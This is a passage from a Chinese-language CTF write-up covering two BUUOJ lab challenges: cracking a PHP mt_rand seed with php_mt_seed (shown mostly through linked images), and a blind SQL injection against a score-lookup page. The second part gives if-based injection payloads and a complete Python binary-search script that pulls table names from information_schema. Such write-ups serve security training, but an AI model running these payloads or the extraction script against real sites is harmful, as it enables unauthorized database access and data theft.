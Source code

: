```php
show_source("check.php");
```

我们需要将给出前十个密码解析成 `php_mt_seed` 需要的参数（参考文章已给出exp)

[[GWCTF 2019]枯燥的抽奖_SopRomeo](https://blog.csdn.net/SopRomeo/article/details/105600636)

![](https://img-blog.csdnimg.cn/840e1385a1fa4ff5a7fdce8c2eb97dc7.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
去破解种子：

![](https://img-blog.csdnimg.cn/e900f37978284ad98c3f4d3efc1abc11.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

---
# [WUSTCTF2020]颜值成绩查询
- 二分法注入
- sql


if盲注，异或也行
```
?stunum=if(2>1,1,0)
if(length(database)>1,1,0)
```

二分法：

```
import requests

url = "http://08e01f48-6162-4c97-8c12-0f1df8dfacbe.node3.buuoj.cn/?stunum="

result = ""
i = 0

while (True):
    i = i + 1
    head = 32
    tail = 127

    while (head < tail):
        mid = (head + tail) >> 1

        # payload = "if(ascii(substr(database(),%d,1))>%d,1,0)" % (i , mid)
        payload = "if(ascii(substr((select/**/group_concat(table_name)from(information_schema.tables)where(table_schema=database())),%d,1))>%d,1,0)" % (
        i, mid)

        r = requests.get(url + payload)
        r.encoding = "utf-8"
        # print(url+payload)
        if "your score is: 100" in r.text:
            head = mid + 1
        else:
            # print(r.text)
            tail = mid

    last = result

    if head != 32:
        result += chr(head)
    else:
        break
    print(result)
```
